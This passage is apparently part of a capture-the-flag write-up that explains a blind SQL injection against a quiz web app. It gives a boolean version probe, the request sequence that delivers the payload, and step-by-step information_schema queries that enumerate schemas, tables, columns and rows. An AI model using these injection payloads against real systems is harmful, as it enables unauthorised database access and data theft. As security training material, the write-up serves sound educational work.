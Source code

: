 ```sql
-- Putting it together, SELECT 1 if the first character of the version string is "8" in decimal. Otherwise, SELECT 0 if it is not:
SELECT IF(ASCII(SUBSTR((SELECT VERSION()), 1, 1))=56, 1, 0)
```

#### Constraints
Even though the vulnerability was easily identified, some not so obvious constraints that were imposed by this challenge are:
1. One `name` is set per session cookie, this means we have to start a new session on each attempt.
2. The final quiz score page can only be retrieved once the quiz has been "completed".

Thus, the sequence of requests must follow:
1. `GET /evil-quiz`
2. `POST /evil-quiz`, setting the `name` parameter as the injection payload
3. `GET /evil-quiz/start`
4. `POST /evil-quiz/start`, setting the 3 parameters `ques_1`, `ques_2` and `ques_3` as `0` (there are other valid values)
5. `GET /evil-quiz/score`, which contains output controlled by the injection payload

#### Practical Methodology
Since there is no knowledge of the database schema and its tables, querying the database must follow a certain format, since we should not make any unnecessary assumptions:
1. Obtain the `schema` name, which can be done by making use of the `information_schema.tables` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html):
    ```sql
    -- Assumes that there is only 1 user-created schema
    SELECT table_schema FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1;
    ```

2. Obtain the `table` name in the `schema` obtained in previous step, making use of the `information_schema.tables` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) again:
    ```sql
    -- Assumes that there is only 1 user-created table, more can be discovered by appending OFFSET X where X is an integer
    SELECT table_name FROM information_schema.tables WHERE table_schema = 'SCHEMA_NAME' LIMIT 1;
    ```

3. Obtain the `columns` in the `schema.table`, first by obtaining the `COUNT()` and then enumerating one by one, making use of the `information_schema.columns` [table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html):
    ```sql
    -- Obtaining number of columns -> X
    SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'SCHEMA_NAME' AND table_name = 'TABLE_NAME';

    -- Obtaining column names, iterating over X
    SELECT column_name FROM information_schema.columns WHERE table_schema = 'SCHEMA_NAME' AND table_name = 'TABLE_NAME' LIMIT 1 OFFSET X;
    ```

4. Obtain the rows in the `schema.table`, column-by-column using `columns`, this time by directly querying the `schema.table`:
    ```sql
    -- Obtaining row 1, iterating over X columns. More rows can be discovered by appending OFFSET X where X is an integer
    SELECT COLUMN FROM SCHEMA_NAME.TABLE_NAME LIMIT 1;
    ```
